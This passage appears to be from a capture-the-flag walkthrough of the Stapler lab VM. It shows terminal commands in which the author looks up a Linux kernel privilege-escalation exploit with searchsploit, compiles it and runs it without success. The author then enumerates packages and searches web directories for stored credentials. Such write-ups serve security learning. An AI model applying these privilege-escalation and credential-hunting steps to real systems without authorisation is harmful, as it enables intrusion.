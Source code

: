 Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

SHayslett@red:~$ sudo su

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for SHayslett:
SHayslett is not in the sudoers file.  This incident will be reported.
SHayslett@red:~$

Worth a try :)

SHayslett@red:~$ cat /proc/version
Linux version 4.4.0-21-generic (buildd@lgw01-06) (gcc version 5.3.1 20160413 (Ubuntu 5.3.1-14ubuntu2) ) #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016

root@kali:~/stapler# searchsploit 4.4.0-21
Linux Kernel 4.4.0-21 (Ubuntu 16.04 x64) - Netfilter target_offset Out-of-Bounds Pri | lin_x86-64/local/40049.c

SHayslett@red:~$ cp 40049.c pwn.c
SHayslett@red:~$ vi pwn.c
SHayslett@red:~$ mv 40049.c decr.c
SHayslett@red:~$ vi decr.c
SHayslett@red:~$ gcc decr.c -m32 -O2 -o decr
SHayslett@red:~$ gcc pwn.c -O2 -o pwn
pwn.c: In function ‘privesc’:
pwn.c:26:42: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
         commit_creds(prepare_kernel_cred((uint64_t)NULL));
                                          ^
SHayslett@red:~$ ls
decr  decr.c  pwn  pwn.c
SHayslett@red:~$ ./decr
netfilter target_offset Ubuntu 16.04 4.4.0-21-generic exploit by vnik
[-] SMEP/SMAP support dectected! Quitting...

Close, but no.  Time to keep digging.

Hayslett@red:~$ dpkg --get-selections | grep deinstall
libmcrypt4					deinstall
linux-image-4.4.0-22-generic			deinstall
linux-image-extra-4.4.0-22-generic		deinstall
resolvconf					deinstall
SHayslett@red:~$

Nothing overly cool there.  Time to poke around the webapps, see if there are any stored credentals.

SHayslett@red:/var/www$ ls -l
total 4
drwxr-xr-x 5 root root 4096 Jun  5  2016 https

